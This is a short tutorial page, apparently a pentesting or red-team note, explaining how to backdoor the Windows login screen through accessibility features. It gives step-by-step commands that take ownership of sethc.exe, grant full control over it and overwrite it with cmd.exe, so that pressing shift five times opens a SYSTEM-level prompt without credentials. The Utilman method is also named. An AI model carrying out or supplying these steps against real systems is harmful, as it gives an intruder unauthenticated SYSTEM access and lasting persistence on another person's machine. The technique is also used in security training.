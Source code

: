 #### How can we Backdoor Login Screen/RDP?
With physical or RDP access, you can backdoor the **Windows login screen** to get a **terminal without valid credentials** by exploiting **accessibility features**. 

Two common methods are:
- `Sticky Keys`
- `Utilman`

#### Sticky Keys Backdoor
You can exploit the **Sticky Keys accessibility shortcut** to get a **SYSTEM-level command prompt** from the Windows **login screen, without logging in**. 

Pressing `shift` 5 times triggers `sethc.exe` (Sticky Keys binary) even from the **login screen**. 

We can backdoor the login screen by replacing `C:\Windows\System32\sethc.exe` with a copy of `cmd.exe` to spawn a console using the sticky keys shortcut, even from the logging screen.

#### 1. Take Ownership of `sethc.exe` (Sticky Keys binary)
```cmd
takeown /f C:\Windows\System32\sethc.exe
```

#### 2. Grant yourself Full Control
```cmd
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
```

#### 3. Replace `sethc.exe` with `cmd.exe`
```cmd
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

4. Lock your session from the Start menu or reboot the machine.
5. At the login screen, press `shift` 5 times to access a terminal with SYSTEM privilege directly from the login screen